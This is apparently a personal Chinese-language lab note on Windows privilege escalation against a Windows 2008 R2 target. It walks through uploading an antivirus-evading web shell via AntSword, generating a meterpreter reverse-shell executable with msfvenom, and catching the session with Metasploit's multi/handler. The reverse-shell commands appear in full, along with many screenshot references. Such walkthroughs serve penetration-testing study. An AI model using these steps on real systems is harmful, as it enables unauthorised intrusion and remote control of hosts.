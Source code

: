 #Windows提权

例：Windows2008r2

配置vpn（如果不行可以还原快照，选择对应的vpn，输入账号密码）

![image-20210824205251309](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824205251309.png)

kali中安装蚁剑（拖入linux版，连个文件解压，初始化，点位置选第二个文件夹，然后就可以运行了）

在kali中打开浏览器找到上传点，上传as免杀马，蚁剑链接![image-20210824205205278](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824205205278.png)

上传cve文件![image-20210824205133060](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824205133060.png)

现在msf中生成可以反弹的shell打开终端

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=5678 -f exe -o msf24.exe

![image-20210824210104475](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824210104475.png)

![image-20210824210434053](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824210434053.png)

退到主目录，右键打开终端运行 dir查看，whoami查看当前权限为web

![image-20210824210556320](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824210556320.png)

打开监听端口，进入msf

use exploit/multi/handler

![image-20210824210906728](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824210906728.png)

options查看配置

![image-20210824211103844](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824211103844.png)

设置payload与之前上传的保持一致

设置

lhost  0.0.0.0 为全端口监听，也可以设置成自己的ip

 lport  刚才设置的端口

![image-20210824211415006](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824211415006.png)

exploit  运行监听模块 

![image-20210824211601987](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824211601987.png)

会话反弹回来了

![image-20210824211850910](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824211850910.png)

sessions -i  查看会话

sessions 1  使用

![image-20210824212530201](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824212530201.png)



![image-20210824212919070](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824212919070.png)

![image-20210824213252858](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824213252858.png)

![image-20210824213616273](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824213616273.png)

![image-20210824213939019](C:\Users\niu\AppData\Roaming\Typora\typora-user-images\image-20210824213939019.png)





















set payload windows/meterpreter/reverse_tcp
set lhost 172.16.12.171
set lport 4444

set exitonsession fasle

